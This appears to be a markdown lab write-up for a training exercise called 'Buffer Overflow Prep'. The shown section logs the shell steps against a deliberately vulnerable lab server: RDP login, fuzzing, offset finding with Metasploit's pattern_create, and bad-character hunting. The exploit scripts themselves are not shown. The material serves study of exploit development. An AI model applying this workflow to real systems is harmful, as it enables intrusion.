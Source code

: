 # Buffer Overflow Prep - Easy

1. [OVERFLOW1](#overflow1)
2. [OVERFLOW2](#overflow2)
3. [OVERFLOW3](#overflow3)
4. [OVERFLOW4](#overflow4)
5. [OVERFLOW5](#overflow5)
6. [OVERFLOW6](#overflow6)
7. [OVERFLOW7](#overflow7)
8. [OVERFLOW8](#overflow8)
9. [OVERFLOW9](#overflow9)
10. [OVERFLOW10](#overflow10)

## OVERFLOW1

```shell
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.157.219 /workarea
#connect to machine rdp

#after running oscp.exe
nc 10.10.157.219 1337
#connected to OSCP vulnerable server

HELP

OVERFLOW1 test

vim fuzzer.py

python3 fuzzer.py
#fuzzer crashed at 2000 bytes

vim exploit.py

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
#generates cyclic pattern of 2000+400 bytes

vim exploit.py
#copy pattern to payload variable

#re-open oscp.exe in Immunity Debugger, and run it again
#necessary before running exploit.py everytime

python3 exploit.py
#crashes oscp.exe server

vim exploit.py
#update offset variable to EIP offset
#set payload variable to empty string
#set retn variable to "BBBB"

#restart oscp.exe before running exploit
python3 exploit.py

vim badchars.py

python3 badchars.py
#copy output to payload variable in exploit.py

#continue cycle till badchars are found and mona compare returns 'unmodified'

vim exploit.py
```